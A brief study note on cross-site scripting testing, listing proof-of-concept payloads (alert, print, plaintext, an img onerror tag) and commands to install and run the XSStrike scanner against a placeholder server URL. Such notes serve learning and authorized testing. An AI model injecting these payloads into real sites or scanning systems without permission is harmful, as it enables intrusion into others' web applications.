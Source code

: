 # XSS

## XSS Testing Payloads

- If after typing this into an input field, you receive the popup, the site is vulnerable to XSS
  - This can be confirmed by looking at the source code (CTRL+U/I)
  - `<script>alert(window.origin)</script>`

- The `alert()` function may be blocked. Some alternatives include:
  - `<plaintext>`: This will stop rendering the HTML after it is inputted
  - `<script>print()</script>`: Thi will pop up a browser print dialog

 **To determine if the XSS vulnerability is persistent, we can refresh the page.**`

- **DOM Attack**: `<img src="" onerror=alert(window.origin)>`

## XSS Discovery

### Automated

We have many options, such as XSS Strike, Brute XSS, and XSSer

#### XSS Strike
```bash
$ git clone https://github.com/s0md3v/XSStrike.git
$ cd XSStrike
$ pip install -r requirements.txt
$ python xsstrike.py
$ python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```

### Manual

We have a few options, such as PayloadAllTheThings and PayloadBox

